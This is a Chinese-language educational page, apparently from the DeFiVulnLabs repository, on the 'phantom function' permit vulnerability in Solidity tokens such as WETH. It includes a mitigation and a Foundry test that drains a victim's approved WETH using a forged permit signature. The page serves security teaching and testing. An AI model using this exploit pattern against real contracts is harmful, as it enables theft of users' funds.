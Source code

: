 [phantom-permit.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/phantom-permit.sol)

# 幻像函数-允许函数

**名称：** 幻象功能-允许功能

**描述：** 幻像函数：接受所有未实际未定义的函数的任何调用，而不进行恢复。 key: 1.不支持EIP-2612许可的Token。 2.Token具有后备功能。 例如：WETH。

**解决措施：**

使用 SafeERC20 的 safePermit - 恢复无效签名。 https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/utils/SafeERC20.sol#LL89C14-L89C24

**参考：**

https://twitter.com/1nf0s3cpt/status/1671347058568237057

https://media.dedaub.com/phantom-functions-and-the-billion-dollar-no-op-c56f062ae49f

**WETH9 合约样例:**

```jsx
contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint wad);
    event Transfer(address indexed src, address indexed dst, uint wad);
    event Deposit(address indexed dst, uint wad);
    event Withdrawal(address indexed src, uint wad);

    mapping(address => uint) public balanceOf;
    mapping(address => mapping(address => uint)) public allowance;

    fallback() external payable {
        deposit();
    }

    receive() external payable {}

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }
}
```

***\*测试方法:\****

forge test --contracts src/test/**phantom-permit.sol** -vvvv

```jsx
// 测试幻像许可证漏洞的函数
    function testVulnPhantomPermit() public {
        // Alice的地址被设置为虚拟机中的第一个地址
        address alice = vm.addr(1);
        
        // 转10个以太币到Alice的账户
        vm.deal(address(alice), 10 ether);

        // 在虚拟机中对 Alice 的帐户发起“恶作剧”
         // 如果没有进一步的上下文，还不清楚这个恶作剧的作用
        vm.startPrank(alice);
        
        // 从当前合约中将 10 以太币存入 WETH9Contract
        WETH9Contract.deposit{value: 10 ether}();
        
        // 批准漏洞许可合约代表该合约花费最大可能数量的代币（本例中为 WETH）
        WETH9Contract.approve(address(VulnPermitContract), type(uint256).max);
        
        //停止对 Alice 帐户的恶作剧
        vm.stopPrank();
        
        // 在 WETH9Contract 中记录该合约的余额
        console.log(
            "start WETH balanceOf this",
            WETH9Contract.balanceOf(address(this))
        );

        //使用许可证代表 Alice 在易受攻击的许可证合约中存入存款
         // v、r、s 的参数（此处为 27、0x0、0x0）是许可证的 ECDSA 签名方案的一部分
        VulnPermitContract.depositWithPermit(
            address(alice),
            1000,
            27,
            0x0,
            0x0
        );
        
        // 获取 WETH 中漏洞许可合约的余额并记录
        uint wbal = WETH9Contract.balanceOf(address(VulnPermitContract));
        console.log("WETH balanceOf VulnPermitContract", wbal);

        // 从漏洞许可合约中提取 1000 个代币
        VulnPermitContract.withdraw(1000);

        // 获取提现后该合约的 WETH 余额并记录
        wbal = WETH9Contract.balanceOf(address(this));
        console.log("WETH9Contract balanceOf this", wbal);
    }
```

**红色框：通过幻像函数排干池中的水。**

![img](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fccbf77e6-c6ef-4cdd-8065-60cca1e2c4c1%2FUntitled.png?table=block&id=ce845a77-2d19-4e97-9124-e3fc0e8a2525&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)